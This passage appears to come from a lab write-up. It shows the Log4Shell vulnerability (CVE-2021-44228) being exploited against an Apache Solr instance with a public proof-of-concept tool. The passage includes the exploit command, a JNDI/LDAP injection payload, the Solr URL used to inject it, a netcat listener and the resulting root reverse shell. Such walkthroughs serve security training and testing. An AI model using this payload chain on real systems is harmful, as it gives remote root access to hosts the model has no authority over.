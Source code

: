   @@@--userip userip@@@ [userip ...]
                        Enter IP for LDAPRefServer & Shell
  @@@--webport webport@@@ [webport ...]
                        listener port for HTTP port
  @@@--lport lport@@@ [lport ...]
                        Netcat Port

┌──(kali㉿kali)-[/tmp/x]
└─$ @@python exploit.py --userip 172.17.0.1 --webport 8000 --lport 443@@

        [!] CVE: CVE-2021-44228           
        [!] Github repo:
        https://github.com/kozmer/log4j-shell-poc          
                             
[+] Exploit java class created success
[+] Setting up fake LDAP server
                                                                                                                                                            
[+] @@@Send me: ${jndi:ldap://172.17.0.1:1389/a}@@@

Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Listening on 0.0.0.0:1389
{% endhighlight %}

If we execute the exploit with appropriate parameter values, it starts an LDAP server and a web server. In addition, it provides us with the payload string `${jndi:ldap://172.17.0.1:1389/a}`. Sending this payload through the vulnerable parameter should trick the Log4j framework into making a request to the LDAP server which then causes a web request to the web server which, in turn, returns a reverse shell payload. Once the target executes the reverse shell payload, it will try to connect back to us on port `443` which we defined earlier using the `lport` flag. As such, we need to execute `sudo nc -lvnp 443` to start a listener on this port before sending the payload to the target.

{% highlight none linenos %}
┌──(kali㉿kali)-[/tmp/x]
└─$ @@sudo nc -lvnp 443@@
listening on [any] 443 ...
{% endhighlight %}

![executingPayload](/assets/{{ imgDir }}/executingPayload.png)

{% highlight none linenos %}
Listening on 0.0.0.0:1389
@@@Send LDAP reference result for a redirecting to http://172.17.0.1:8000/Exploit.class
10.6.6.25 - - [18/Aug/2022 13:51:14] "GET /Exploit.class HTTP/1.1" 200 -@@@
{% endhighlight %}

To inject the payload, we simply browse to `/solr/admin/cores?action=CREATE&wt=json&name=${jndi:ldap://172.17.0.1:1389/a}`. This results in an error message. However, according to the output of the exploit, the target host sent us an LDAP request and a web request. This suggests that our payload was executed!

{% highlight none linenos %}
┌──(kali㉿kali)-[/tmp/x]
└─$ @@sudo nc -lvnp 443@@
listening on [any] 443 ...
@@@connect to [172.17.0.1] from (UNKNOWN) [10.6.6.25] 37856@@@
@@whoami@@
@@@root@@@
{% endhighlight %}

Indeed, if we check the netcat listener, we notice that we have received a shell on the target as the `root` user!
